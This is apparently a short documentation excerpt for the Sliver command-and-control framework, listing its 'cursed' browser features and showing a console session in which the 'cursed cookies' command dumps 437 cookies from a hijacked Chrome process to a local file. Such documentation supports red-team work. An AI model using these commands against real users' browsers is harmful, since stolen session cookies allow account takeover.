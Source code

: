 ## Cursed Chrome
## Cursed Edge
## Cursed Electron
## Cursed Console
## Cursed Cookies
Starting in v1.5.28 the `cursed cookies` command can be used to dump a remote cursed process' cookies to a local file (newline delimited json), for example:
```
[server] sliver (CHRONIC_GOAT) > cursed chrome

...

[server] sliver (CHRONIC_GOAT) > cursed cookies

? Select a curse: 44199  [Session 56a5cd6f]  /Applications/Google Chrome.app/Contents/MacOS/Google Chrome

[*] Successfully dumped 437 cookies
[*] Saved to cookies-20220925182151.json

```
